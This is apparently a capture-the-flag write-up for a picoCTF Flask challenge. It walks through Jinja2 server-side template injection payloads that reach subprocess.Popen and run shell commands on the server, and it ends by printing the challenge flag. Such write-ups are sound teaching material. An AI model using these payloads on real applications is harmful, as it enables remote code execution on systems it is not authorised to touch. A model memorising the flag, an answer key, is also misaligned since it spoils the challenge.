


## Challenge

There seem to be a few more files stored on the flash card server but we
can't login. Can you?

http://2018shell1.picoctf.com:56944

## Solution

Looks like we can do more advanced things with the SSTI vulnerability
from the [previous Flaskcard challenge](#)

We find this great description about remote code execution (rce) through
server side template injection (SSTI):

* https://www.lanmaster53.com/2016/03/09/exploring-ssti-flask-jinja2/
* https://www.lanmaster53.com/2016/03/11/exploring-ssti-flask-jinja2-part-2/

*Greatly simplified, `__mro__` allows us to go back up the tree of
inherited objects in the current Python environment, and
`__subclasses__` lets us come back down. So what's the impact on the
search of a greater exploit for SSTI in Flask/Jinja2? By starting with a
new-type object, e.g. type str, we can crawl up the inheritance tree to
the root object class using `__mro__`, then crawl back down to every
new-style object in the Python environment using `__subclasses__`. Yes,
this gives us access to every class loaded in the current python
environment.*

Let's try it:


    input: {{ ''.__class__.__mro__ }}

    result: (<class 'str'>, <class 'object'>)


now, let's try to access the `object` class and find all the subclasses
loaded into the app:


    input: {{ ''.__class__.__mro__[1].__subclasses__() }}

    result: [<class 'itertools.compress'>, <class 'formatteriterator'>,
    <class 'apt_pkg.ActionGroup'>, <class 'flask_wtf.csrf.CSRFProtect'>,
    <class 'sqlalchemy.sql.naming.ConventionDict'>, <class 'sqlalchemy.util.langhelpers.PluginLoader'>,
    <class 'werkzeug.formparser.MultiPartParser'>, <class 'werkzeug.wrappers.ResponseStream'>,
    <class 'jinja2.utils.LRUCache'>, <class 'operator.methodcaller'>, <class 'code'>,

    [..] (~750 more classes)

    <class 'click.core.Parameter'>, <class 'wtforms.fields.core.Field'>, <class 'subprocess.Popen'>,
    <class 'zipfile.LZMACompressor'>, <class 'itertools._tee'>, <class 'wtforms.validators.Regexp'>,
    <class 'werkzeug.wsgi.DispatcherMiddleware'>, <class '_ctypes._CData'>, <class 'itertools.chain'>]



Screenshot of how this looks on the website:

So these are all the python classes we have access to, around 770 of
them. Popen looks interesting,
and we determine it is number 760 in the list:


    input: {{ ''.__class__.__mro__[1].__subclasses__()[760] }}

    result: <class 'subprocess.Popen'>


Let's try to run it, we'll start with a simple `pwd`:


    input: {{ ''.__class__.__mro__[1].__subclasses__()[760]('pwd',shell=True).communicate() }}
    result: (None, None)


hmm, it is not outputting stdout; normally we would add
`stdout=subprocess.PIPE`, but we don't have
access to `subprocess`, only `subprocess.Popen` is loaded, but this
turns out to just be the integer `-1`:


    input: {{ ''.__class__.__mro__[1].__subclasses__()[760]('pwd',shell=True,stdout=-1).communicate() }}
    result: (b'/problems/flaskcards-and-freedom_4_2cd670d54e75a9ed7cd0e9b76816fc59\n', None)



yay! so we can run any shell command! Now to get the flag..

The challenge description mentioned there were files, so let's do an
`ls`:


    input: {{ ''.__class__.__mro__[1].__subclasses__()[760]('ls',shell=True,stdout=-1).communicate() }}
    result: (b'app\nflag\nserver.py\nxinet_startup.sh\n', None)

ok, looks like we need to read the file named `flag`

    input: {{ ''.__class__.__mro__[1].__subclasses__()[760]('cat flag',shell=True,stdout=-1).communicate() }}
    result: (b'picoCTF{R_C_E_wont_let_me_be_85e92c3a}', None)


whoo \\o/

